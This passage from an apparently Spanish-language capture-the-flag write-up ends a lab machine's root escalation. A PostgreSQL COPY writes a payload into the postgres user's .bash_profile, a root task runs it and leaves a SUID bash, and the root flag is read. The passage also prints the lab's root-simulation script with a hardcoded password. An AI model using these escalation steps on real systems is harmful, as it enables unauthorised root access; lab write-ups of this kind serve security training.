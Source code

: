 ```bash
download=> copy (select '/dev/shm/test.py') to '/var/lib/postgresql/.bash_profile';
COPY 1
```

Luego de un rato, root nos ejecutará el comando y nos dejará una bash SUID con la que podremos tomar la última flag.

```bash
wesley@download:/tmp$ ls -la asd
-rwsr-xr-x 1 root root 1183448 Nov 11 17:25 asd
wesley@download:/tmp$ ./asd -p
asd-5.0# cd /root
asd-5.0# ls
manage-db  management.py  root.txt  venv
asd-5.0# cat root.txt
94dc2a821bcc079a398c763caa******
```

## Extra

La máquina originalmente iba a ser de dificultad media, pero dada la complejidad de la explotación inicial decidieron ponerla como difícil.

Si deseas el código utilizado para simular al usuario o tarea entrando como root y administrando la base de datos, aquí lo tienes:

```py
import paramiko
import time
import os

while True:
    print("Deleting files")

    for file_name in os.listdir("/var/lib/postgresql/"):
        if file_name != "12":
            os.remove(os.path.join("/var/lib/postgresql/", file_name))

    # This gives people 60 seconds to get their payload within .bashrc
    time.sleep(60)

    print("SSHing")
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect("localhost", username="root", password="QzN6j#aP#N6!7knrXkN!B$7kq")

    chan = ssh.get_transport().open_session()
    chan.get_pty()
    chan.invoke_shell()
    chan.send(b'/bin/bash -i ./manage-db\n')
    time.sleep(5)
    chan.send(b"psql\n")
    time.sleep(30)

    if not chan.closed:
        chan.close()
```

